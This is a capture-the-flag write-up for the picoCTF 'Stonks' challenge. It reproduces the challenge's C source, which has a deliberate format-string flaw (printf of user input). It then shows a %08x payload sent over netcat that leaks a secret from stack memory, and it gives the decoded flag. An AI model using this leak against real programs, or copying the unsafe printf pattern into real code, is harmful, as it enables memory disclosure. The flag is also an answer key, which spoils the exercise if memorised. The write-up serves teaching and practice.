

# Stonks

##### Category: Binary Exploitation

---

#### CHALLENGE DESCRIPTION

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! 

[vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) 

`nc mercury.picoctf.net 59616`

---

#### SOLUTION

The challenge provides us with an *.c* file and also a `netcat` command.

The *.c* file is shown below

```c++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```


**<u>Recon</u>**

Looking at the code above we notice that the flag is not in the source code. We can assume that the flag is stored elsewhere. In other words, we need to get the flag without modifying the vulnerable code. However, with the copy of the source code, we can design an attack to capture the flag.

We then run the command provided using `nc mercury.picoctf.net 59616`

Output:

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

At this stage we know we are the `main()` function and that there the program is waiting for the user to input.

We can only input either `1` or `2` another other input will just result in the program terminating.

After trying both, we realize that choosing option `2` does not reveal anything other than display the contents in the portfolio, and since we have not bought *stonks* yet, the portfolio will reflect that we do not own any *stonks*:

```
Portfolio as of Sat Jun 19 03:59:46 UTC 2021


You don't own any stonks!
Goodbye!
```

This leaves us with choosing only option `1`:

```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?

```

Based on the source code and output, we can determine that the we are currently in the `buy_stonks()` function.

Specifically,

```c++
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```


**<u>Vulnerability</u>**

At this stage, we see that there program is getting user input using the `scanf()` function and storing into the variable `user_buf`. The `%300s` placeholder is used to read a word into a string of 300 length. Note that an additional byte is required to store the null terminator.

We also see that there is a `printf()` that displays the contents of `user_buf`.

This leads us to believe that there is a <u>format-string vulnerability</u>.

This vulnerability can lead to one of the following consequences:

1. crash the program
2. read from an arbitrary memory place
3. modify the values in an arbitrary memory place


**<u>Exploitation</u>**

We also know that the following code below had executed:

```C++
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
```

Since, the program is able reach the part where it asks for the API token, this means that both the `if` conditions did not trigger. We can assume that the flag is probably stored in `api_buf` because of the `fgets(api_buf, FLAG_BUFFER, f)`. 

With this information, we can take advantage of the fact that the variable `api_buf` is allocated on the stack.


**<u>Viewing the stack</u>**

We can view some parts of the stack by entering the following input which will be passed into `user_buf` by the `scanf()` function.

```c++
%08x.%08x.%08x.%08x.%08x
```

Then, the variable `user_buf` will then passed into the `printf()` function which prints the first five parameters as 8-digit zero-padded hexadecimal numbers. The `.` is just for easy readability. Entering the above as input for the `scanf` yield the following output:

```
Buying stonks with token:
08fa53d0.0804b000.080489c3.f7f45d80.ffffffff
```

This hexadecimal sequence above is a partial dump of the stack memory, starting from the bottom to the top of the stack. 




**<u>Payload</u>**

Usually, `scanf` is going to pause for you to type inputs. 

We can easily write another program that stores 0x05 (again, not ‘5’) to a file (let us call it `input.txt`), then we can run the vulnerable program with its input being redirected to `input.txt`; namely, we run `nc mercury.picoctf.net 59616 < input.txt`. This way, `scanf` will take its input from the file `input.txt`, instead of from the keyboard.

```
1
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

We can then save the output as another text file `output.txt`. This makes it easier to analyze the output.

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
09bdf3d0.0804b000.080489c3.f7f8cd80.ffffffff.00000001.09bdd160.f7f9a110.f7f8cdc7.00000000.09bde180.00000001.09bdf3b0.09bdf3d0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.38343136.34356562.ff83007d.f7fc7af8.f7f9a440.05b4f100.00000001.00000000.f7e29be9.f7f9b0c0.f7f8c5c0.f7f8c000
Portfolio as of Mon Jun 21 05:43:32 UTC 2021


1 shares of YV
10 shares of CQZ
2 shares of C
26 shares of A
9 shares of GVQV
87 shares of A
52 shares of MK
Goodbye!
```

We can convert the following hex code to ASCII using an online decoder such as https://gchq.github.io/CyberChef/

```
09bdf3d0.0804b000.080489c3.f7f8cd80.ffffffff.00000001.09bdd160.f7f9a110.f7f8cdc7.00000000.09bde180.00000001.09bdf3b0.09bdf3d0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.38343136.34356562.ff83007d.f7fc7af8.f7f9a440.05b4f100.00000001.00000000.f7e29be9.f7f9b0c0.f7f8c5c0.f7f8c000
```

After converting:

```
	½óа‰Ã÷ø̀ÿÿÿÿ	½Ñ`÷ù¡÷øÍÇ	½á€	½ó°	½óÐocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿƒ}÷üzø÷ù¤@´ñ÷â›é÷ù°À÷øÅÀ÷øÀ
```

Now, we see the flag but it is not properly formatted.

```
ocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿƒ}
```

The flag is reversed at every 4 characters. We manually reverse it or write a code to reveal the flag.


**<u>Flag</u>**:

```
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}
```

---

#### References

Format String Vulnerability Lab (https://web.ecs.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/Format_String.pdf)

Exploiting Format String Vulnerabilities (https://julianor.tripod.com/bc/formatstring-1.2.pdf)

Software security - Format String Vulnerabilities (https://youtu.be/8dcUkJYn-Mk)

